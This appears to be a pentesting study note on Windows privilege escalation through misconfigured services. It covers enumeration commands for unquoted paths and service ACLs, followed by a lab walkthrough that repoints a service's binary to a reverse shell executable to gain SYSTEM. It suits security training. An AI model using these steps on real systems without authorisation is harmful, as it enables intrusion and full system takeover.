 # 8) Services
If services as running with SYSTEM privileges, we may be able to exploit them
- Goated (finds unquoted paths):
```bat
wmic service get name,pathname | findstr /i "auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
```
- Check service auto-start on reboot:
```PowerShell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.StartMode -like 'Auto'}
```
- Query the configuration of a service:
	- `sc.exe qc <name>`
- Query the current status of a service:
	- `sc.exe query <name>`
- Modify a configuration option of a service:
	- `sc.exe config <name> <option>= <value>`
- Start/Stop a service:
	- `net start/stop <name>`

## **Service Misconfigurations**
1) **Insecure Service Properties**
2) **Unquoted Service Path**
3) **Weak Registry Permissions**
4) **Insecure Service Executables**
5) **DLL Hijacking**

### **8.1) Insecure Service Properties**
Each service has an ACL which defines certain service-specific permissions. Some permissions are innocuous (e.g., `SERVICE_QUERY_CONFIG`, `SERVICE_QUERY_STATUS`). Some may be useful (e.g., `SERVICE_STOP`, `SERVICE_START`). Some are dangerous (e.g., `SERVICE_CHANGE_CONFIG`, `SERVICE_ALL_ACCESS`)

### Insecure Service Permissions
**If our user has permissions to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to one of our own.** 

> Potential Rabbit Hole: If you can change a service configuration but cannot start/stop the service, you may not be able to escalate privileges!

### Privilege Escalation
1) Run winPEAS to check for service misconfigurations:
	1) `.\winPEASany.exe quiet servicesinfo`
2) Note that we can modify the `daclsvc` service
3) We can confirm this with `accesschk.exe` or `icacls`:
	1) `.\accesschk.exe /accepteula -uwcqv user daclsvc`
4) Check the current configuration of the service:
	2) `sc.exe qc daclsvc`
5) Check the current status of the service:
	1) `sc.exe query daclsvc`
6) Reconfigure the service to use our reverse shell executable:
	2) `sc.exe config daclsvc binpath="\"C:\PrivEsc\reverse.exe\""`
7) Start a listener, and then start the service to trigger the exploit:
	1) `net start daclsvc`
